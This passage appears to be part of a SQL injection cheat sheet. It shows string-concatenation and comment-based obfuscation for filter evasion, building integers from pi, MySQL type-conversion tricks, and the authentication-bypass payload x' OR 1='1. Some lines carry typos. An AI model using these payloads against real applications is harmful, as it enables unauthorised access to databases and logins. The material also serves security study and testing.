→ https://docs.oracle.com/cd/B28359_01/server.111/b28286/functions026.htm#SQLRF00619

→ https://docs.oracle.com/cd/B28359_01/server.111/b28286/functions110.htm#SQLRF00684

```bash
SELECT 'He'||'ll'||'o'
SELECT CONCAT('He','llo')
SELECT NVL('Hello', 'Goodbye')
```

Obfuscating the string concatenation:
```bash
SELECT q'[]'||'He'||'ll'/**/'o'
SELECT CONCAT(/**/'He'/**/,/**/'ll'/**/)
```

Integers:
- Example is to use the value PI (3,141593...). With FLOOR to obtain the value 3, and CEIL to obtain the value 4
- We can use system function like version() and obtain the value 5,6

For example
```bash
ceil(pi()*3) = 10
```

### MySQL Type Conversion
Combining arithmetic operations with different types:
```bash
SELECT ~'-2it\'s a kind of magic'
```

Numbers vs Booleans:
```bash
SELECT ... 1=TRUE
SELECT ... 2! =TRUE
SELECT ... OR 1
SELECT ... AND 1
```

Strings vs Numbers vs Booleans:
```bash
SELECT ... VERSION()=5.5 #5.5.30
SELECT ... @@VERSION()=5.5 #5.5.30
SELECT ... ('type'+'cast')=0 #TRUE
SELECT ~'-2it\'s a kind of mafic'        '#1
SELECT ~'-1337a kind of magic'-25 #1337
```

Bypassing Authentication:
```bash
# Put all of this together and try to think of some alternatives to the classic

x' OR 1='1
```



